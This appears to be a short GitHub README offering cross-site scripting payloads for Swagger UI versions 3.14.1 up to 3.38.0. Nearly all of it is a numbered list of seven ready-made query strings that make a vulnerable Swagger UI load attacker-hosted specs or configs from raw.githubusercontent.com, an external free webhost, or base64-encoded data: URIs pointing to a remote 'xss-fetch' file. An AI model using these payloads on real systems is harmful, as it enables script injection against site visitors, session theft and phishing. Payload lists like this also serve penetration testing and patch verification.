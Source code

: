 # swagger-ui-xss
Swagger UI version affected: `>=3.14.1` &lt; `3.38.0`

## Payload

1. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-domain.yaml`
2. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch.yaml`
3. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/config.json`
4. `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
5. `/classicapi/doc/?configUrl=data:text/html;base64,base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
6. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch2.yaml`
7. `?configUrl=https://ablush-dresses.000webhostapp.com/config.json`



Thanks to: https://github.com/VictorNS69/swagger-ui-xss/

